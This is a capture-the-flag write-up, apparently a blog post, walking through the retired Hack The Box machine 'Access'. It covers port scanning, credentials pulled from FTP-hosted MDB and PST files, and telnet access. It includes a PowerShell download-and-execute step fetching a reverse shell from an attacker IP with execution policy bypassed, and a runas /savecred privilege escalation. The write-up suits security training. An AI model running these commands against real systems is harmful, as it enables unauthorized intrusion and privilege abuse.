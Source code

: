 ```yaml
---
layout: post
title: "Access: Hack The Box Walkthrough"
date: 2019-03-03 04:43:45 +0000
last_modified_at: 2019-03-03 04:43:52 +0000
category: Walkthrough
tags: ["Hack The Box", Access, retired]
comments: true
image:
  feature: access-htb-walkthrough.jpg
  credit: Pexels / Pixabay
  creditlink: https://pixabay.com/en/dark-door-door-handle-light-open-1852985/
---
```


This post documents the complete walkthrough of Access, a retired vulnerable [VM][1] created by [egre55][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

Access is an active vulnerable VM from Hack The Box.

### Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.98 --rate=1000

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-02-09 10:37:40 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.10.10.98
Discovered open port 23/tcp on 10.10.10.98
Discovered open port 21/tcp on 10.10.10.98
```

`masscan` finds three open ports: `21/tcp`, `23/tcp` and `80/tcp`. Let's do one better with `nmap` scanning these discovered ports.

```
# nmap -n -v -Pn -p21,23,80 -A --reason -oN nmap.txt 10.10.10.98
...
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|_  SYST: Windows_NT
23/tcp open  telnet? syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
```

Since anonymous FTP is allowed, let's check it out first.

<a class="image-popup">
![ee418d6f.png](/assets/images/posts/access-htb-walkthrough/ee418d6f.png)
</a>

There's a huge file in the `Backups` directory—`backup.mdb`. It appears to be a Microsoft Access Jet Database (MDB) file.

<a class="image-popup">
![0ce46389.png](/assets/images/posts/access-htb-walkthrough/0ce46389.png)
</a>

There's also a big file—`Access Control.zip`, in the `Engineers` directory.

<a class="image-popup">
![ea05e083.png](/assets/images/posts/access-htb-walkthrough/ea05e083.png)
</a>

The archive file is password-protected and it appears to contain a Personal Storage Table (PST) file in it.

### Microsoft Office

I know there are Linux tools to read MDB and PST files but for the sake of convenience, let's use Microsoft Office to open them. I'll use Microsoft Access to read the MDB file. Here's what I found in the `auth_user` table.

<a class="image-popup">
![access.png](/assets/images/posts/access-htb-walkthrough/access.png)
</a>

The password `access4u@security` is the one to extract the PST file from the archive. I'll use Microsoft Outlook to read the PST file. There's only one email in the mailbox.

<a class="image-popup">
![outlook.png](/assets/images/posts/access-htb-walkthrough/outlook.png)
</a>

Another credential (`security:4Cc3ssC0ntr0ller`) in the bag!

### Telnet

Let's give the credential a shot with the Telnet service.

<a class="image-popup">
![16c6c1e1.png](/assets/images/posts/access-htb-walkthrough/16c6c1e1.png)
</a>

Awesome.

The file `user.txt` is at `security`'s desktop.

<a class="image-popup">
![0c8d6cb5.png](/assets/images/posts/access-htb-walkthrough/0c8d6cb5.png)
</a>

### Privilege Escalation

Telnet is painfully slow. Let's run a reverse shell in PowerShell. First of all, let's write a `wget` script in PowerShell. Note that this system is running Windows Server 2008. As such, only PowerShell 2.0 is available. Echo the following lines to `C:\Users\security\Downloads\wget.ps1`.

```powershell
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile($Args[0],$Args[1])
```

<a class="image-popup">
![7638e0eb.png](/assets/images/posts/access-htb-walkthrough/7638e0eb.png)
</a>

Next, generate a reverse shell in PowerShell with `msfvenom` like so.

<a class="image-popup">
![bfe9f363.png](/assets/images/posts/access-htb-walkthrough/bfe9f363.png)
</a>

Run the following commands in the `telnet` session to transfer `rev.ps1` over.

```
powershell -ExecutionPolicy Bypass -File wget.ps1 http://10.10.12.246/rev.ps1 rev.ps1
```

Now, we can execute the reverse shell with the following command.

```
powershell -ExecutionPolicy Bypass -NoExit -File rev.ps1
```

The `-NoExit` switch indicates that we don't want to exit from the thread. We should get a reverse shell in our `nc` listener.

<a class="image-popup">
![5f59bc8d.png](/assets/images/posts/access-htb-walkthrough/5f59bc8d.png)
</a>

During enumeration of `security`'s account, I ran the `cmdkey` command to list the stored credentials in the box and this is what I saw.

<a class="image-popup">
![d1e7b1c4.png](/assets/images/posts/access-htb-walkthrough/d1e7b1c4.png)
</a>

Perfect. This means that I can use the `/savecred` switch in `runas` to impersonate Administrator without knowing the password! Now, let's claim the prize with the following command:

```
C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Downloads\root.txt"
```

<a class="image-popup">
![6874f21f.png](/assets/images/posts/access-htb-walkthrough/6874f21f.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/156
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/
